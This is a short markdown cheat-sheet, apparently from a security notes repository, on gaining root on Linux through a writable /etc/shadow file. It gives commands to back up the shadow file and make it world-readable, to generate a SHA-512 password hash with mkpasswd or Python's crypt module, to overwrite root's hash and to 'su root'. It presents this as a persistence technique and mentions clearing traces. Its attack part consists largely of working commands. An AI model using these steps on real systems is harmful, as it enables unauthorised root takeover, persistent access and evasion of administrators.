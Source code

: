 # Living off the Land

## Weak File Permissions - Writable `/etc/shadow`

Nowadays most modern Linux servers and desktops currently are most up-to-date and I can say you'll rarely find it or not. Yet you can use this method as a persistence technique yet it's not OPSEC safe to do so but hey you'll might need it under certain circumstances.

- Backup the shadow file. To clear traces ahead of time.

`$ cp /etc/shadow /tmp/shadow.bak && sudo chmod o+r /etc/shadow`

## Exploit

### Overwrite Password via Hash Digest

#### Mkpasswd

`$ mkpasswd -m sha-512 newpass1234`

#### Python Crypt Module

`$ python -c 'import crypt; print(crypt.crypt("newpass1234", "$6$salt"))'`

Then edit the shadow file `root:<sha512crypt_hash>:17298:0:99999:7:::` replace the old `<sha512crypt_hash>` which starts with $6$ into a new one that was previously generated.

Then try to authenticate and you're root.

`$ su root`

---
## References

- [Linux Privesc Wrong Permissions](https://wixnic.github.io/linux-privesc-wrong-permissions/)

- [Linux Privilege Escalation Writable Passwd File](https://steflan-security.com/linux-privilege-escalation-writable-passwd-file/)